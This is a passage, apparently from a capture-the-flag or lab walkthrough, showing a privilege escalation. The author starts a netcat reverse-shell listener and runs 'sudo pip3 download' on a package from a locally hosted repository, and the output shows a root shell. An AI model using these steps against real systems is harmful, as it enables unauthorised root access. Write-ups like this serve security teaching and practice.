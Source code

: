 ![](assets/project_visibility.png)

The repository is now publicly accessible :

![](assets/project_unlocked.png)

Start a reverse shell listener :
rlwrap nc -vnlp 9001

And execute the sudo command to gain elevated privileges :
sudo pip3 download http://127.0.0.1:3000/john/Test/raw/master/mytest-0.0.1.tar.gz

```shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
